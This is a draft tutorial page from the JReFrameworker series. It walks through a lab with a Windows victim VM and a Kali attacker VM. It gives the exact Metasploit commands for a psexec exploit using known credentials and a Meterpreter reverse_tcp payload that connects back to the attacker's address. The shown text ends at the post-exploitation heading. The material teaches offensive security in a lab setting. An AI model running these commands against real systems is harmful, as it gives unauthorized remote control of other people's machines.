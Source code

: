 ```yaml
---
layout: post
title: Payload Deployment
draft: true
---
```


This tutorial demonstrates how to modify a victim machine's runtime using a JReFrameworker module.

If you haven't already, you should complete the first two tutorials ([Hello World](./hello-world) and [Hidden File](./hidden-file)) to become familiar with the basics of JReFrameworker.

<a name="Setup"></a>

## Lab Setup

You will also need to setup a small laboratory test environment that includes the following.

1. A victim machine (this tutorial uses a fresh install of Windows 7 SP1 x64 English edition in a virtual machine, but any OS capable of running Java will work).
2. An attacker machine with [Metasploit](https://www.metasploit.com/) installed (this tutorial uses a [Kali Linux virtual machine](https://www.offensive-security.com/kali-linux-vmware-virtualbox-image-download/) version 2016.2).
3. An installation of JReFrameworker (this tutorial uses the host machine, but any OS that can run [Eclipse](https://eclipse.org/) with JReFrameworker installed will work).

For this tutorial we will be using [VMWare](https://www.vmware.com) virtual machines, but [Virtualbox](https://www.virtualbox.org) is a good free alternative to VMWare.

Our victim machine was created with an Administrator account named `Victim` and password `badpass`. Log into the machine. Since Java is not installed by default, we will need to install the runtime environment. You can download the standard edition of Java directly from [Oracle](http://www.oracle.com/technetwork/java/javase/downloads/index.html) or by using the [ninite.com](https://ninite.com/) installer. 

After installing Java, we set out virtual machines to `Host only` mode with our victim at `192.168.115.129` and our attacker at `192.168.115.128`. Double check that you know the IP addresses of each machine and that each machine can ping the other. If Kali cannot ping the Windows virtual machine, you may need to disable or specifically allow connections through the Windows firewall.

<p>
  <center>
    <a href="../images/payload-deployment/windows-network-zoom.png" data-lightbox="windows-network" data-title="Windows Network">
      <img src="../images/payload-deployment/windows-network.png" alt="Windows Network" />
      <figcaption>Windows (Victim) Network (click to zoom)</figcaption>
    </a>
  </center>
</p>

<p>
  <center>
    <a href="../images/payload-deployment/kali-network-zoom.png" data-lightbox="kali-network" data-title="Kali Network">
      <img src="../images/payload-deployment/kali-network.png" alt="Kali Network" />
      <figcaption>Kali (Attacker) Network (click to zoom)</figcaption>
    </a>
  </center>
</p>

The next section continues the lab setup towards getting an active [Metasploit Meterpreter](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/) session on the victim machine. If your lab setup is different and you have a working exploit already, skip to the [Post Exploitation](#PostExploitation) section below.

<a name="Exploitation"></a>

## Exploitation

Since we already know the credentials for the victim machine, we will be using Metasploit's [psexec (pass the hash) module](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/). In Kali, open the Metasploit framework console by typing `msfconsole` in the terminal. 

Within the Metasploit framework console, load the psexec exploit module by typing `use exploit/windows/smb/psexec`.

Type `show options` to view the exploit configuration parameters.

Set the remote host to be the IP address of the victim machine by typing `set RHOST 192.168.115.129`.

Set the username to authenticate as by typing `set SMBUser Victim`. Note that you may need to replace `Victim` with the Windows username you used to configure your virtual machine with during setup.

Set the password to authenticate with by typing `set SMBPass badpass`. Again you may need to replace `badpass` with the actual password you used during setup.

Finally let's configure a reverse TCP Meterpreter payload that will execute Meterpreter on the victim machine and connect back to our attacker machine with the active session. Configure the payload by typing `set PAYLOAD windows/meterpreter/reverse_tcp`.

Set the outbound Meterpreter connection address to be the local host (the IP address of the attacker machine) by typing `set LHOST 192.168.115.128`.

Set the outbound Meterpreter connection port to be port 443 (https) by typing `set LPORT 443`.

Finally run the exploit by typing `exploit`.

<a name="PostExploitation"></a>

## Post Exploitation